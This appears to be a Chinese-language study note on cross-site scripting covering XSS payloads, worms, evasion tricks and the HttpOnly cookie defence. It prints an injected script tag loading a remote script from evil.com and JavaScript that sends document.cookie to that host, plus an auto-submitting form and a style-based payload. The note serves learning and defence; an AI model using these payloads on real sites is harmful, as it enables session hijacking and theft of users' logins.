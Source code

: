 ## XSS Payload
XSS Payload实际上就是JavaScript脚本，所以任何JavaScript脚本能实现的功能XSS Payload都能做到。比如读取Cookies，从而发起Cookies劫持攻击（Cookies中可能有登录凭证）；
例如攻击者先加载这样一个远程脚本：
http://www.a.com/test.html?abc="><script src=http://www.evil.com/evil.js></script>"，正在的Payload写在这个远程脚本中从而避免直接在URL参数中写入大量的Javascript代码。在evil.js中通过如下方式窃取Cookies：
```
var img = document.createElement("img");
img.src = "http://www.evil.com/log?"+escape(document.cookie);
document.body.appendChild(img);
```
【test.html的内容没有，上面的例子不通顺，艹】


同样的，可以通过img的src标签来发起GET请求。对于POST请求，则可以通过JavaScript动态构造一个表单，然后自动提交这个表单来实现：
```
var f = document.createElement("form");
f.action = "...";
f.method = "post";
document.body.appendChild(f);

var il = document.createElement("input");
il.name = "ck";
il.value = "dd";
f.append(il);

f.submit();
```

详略（很多历史问题原理的讨论，现已修复）。

通过style标签也能构造出XSS：
```
<div style="background: url('javascript:alert(1)')">
```

## XSS Worm
一般来说，用户之间发生交互行为的页面（发送站内信、用户留言等），如果存在存储型XSS，则比较容易发起XSS Worm攻击。
详略。

## XSS构造技巧
利用字符编码，绕过长度限制，利用<base>标签，利用window.name等，详略。

## XSS的防御
1.将Cookies设为HttpOnly，浏览器将禁止页面的JavaScript访问带有HttpOnly的Cookie。（严格来说HttpOnly并非为了对抗XSS，它解决的是XSS后的Cookies劫持攻击）。
服务器可能会设置多个Cookie，而HttpOnly可以有选择性地加在任何一个Cookie上：
```
<?php
header("Set-Cookie:cookie1=test1;");
header("Set-Cookie:cookie2=test2;httponly",false);
?>
```
当通过document.cookie读取cookie时，只有cookie1能被JavaScript读取到。
